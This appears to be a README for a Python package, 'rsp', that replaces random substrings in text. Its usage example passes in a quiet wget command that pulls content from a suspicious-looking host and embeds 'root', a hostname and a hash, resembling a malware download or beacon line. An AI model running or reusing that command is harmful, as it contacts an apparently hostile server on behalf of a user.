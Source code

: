 ====================================
``rsp`` - Random String Processing
====================================

Installation
------------

::

    pip install rsp-alamo

Dependency
----------

::

    transformers==4.33.1

Example
-------

::

    from rsp.util import RspUtil

    rsp_util = RspUtil()
    string = "wget -q -O- http://t.jdjdcjq.top/ln/a.asp?rds_20210710*root*dclnmts02." \
             "adderucci.com*3e4812648d32b3808308784c4b69240d227f3cd97906957f65e70b962e9852f2"
    print(rsp_util.replace_rs(string))
